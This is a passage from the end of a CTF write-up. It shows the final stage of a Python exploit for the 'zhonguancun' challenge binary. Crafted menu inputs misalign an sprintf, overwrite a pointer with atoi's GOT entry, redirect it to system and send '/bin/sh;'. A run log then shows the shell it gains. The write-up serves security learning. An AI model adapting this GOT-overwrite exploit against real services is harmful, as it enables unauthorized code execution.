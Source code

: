 ```python
    sendln('d')
    readtil('choice?')
    sendln('b')
    print readtil('buy?')
    sendln('2')
    readtil('choice?')
    sendln('b') # get wholesale price
    readtil('buy?')
    sendln('134525517') # is 0x804b280-51, so that the sprintf is aligned and will overwrite the money pointer with atoi@got or snprintf@got
    readtil('choice?')
    sendln('a')
    readtil('buy?')
    sendln('14921728')  # this is the offset of atoi to system on *my* box, 58288*256 (the *256 is to compensate for the crooked ptr)
    readtil('choice?')
    sendln('a')
    readtil('buy?')
    sendln('/bin/sh;')

    # ok, should have a shell by now!
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
    
    s.close()

pwn()
```

The binary is running locally via `socat`. Running the python script lands a shell:

```bash
bas@tritonal:~/tmp/bctf/zhonguancun$ python ./zhong.py

 <<< Store Name: SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS >>>
...snip...
15) Blackberry OS Phone AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA price: -2147483648 CNY description: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
16) Blackberry OS Phone AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA price: -2147483648 CNY description: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBd�
Your total money: 100000 CNY.
What do you want to buy?
 whoami
bas
uname -a
Linux tritonal 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1+deb7u2 x86_64 GNU/Linux
```

Unfortunately, a day too late for the CTF. 

Conclusion
----------

I had found nearly all the puzzle pieces, yet missed the final small piece. For the next CTF, I will Try Harder!

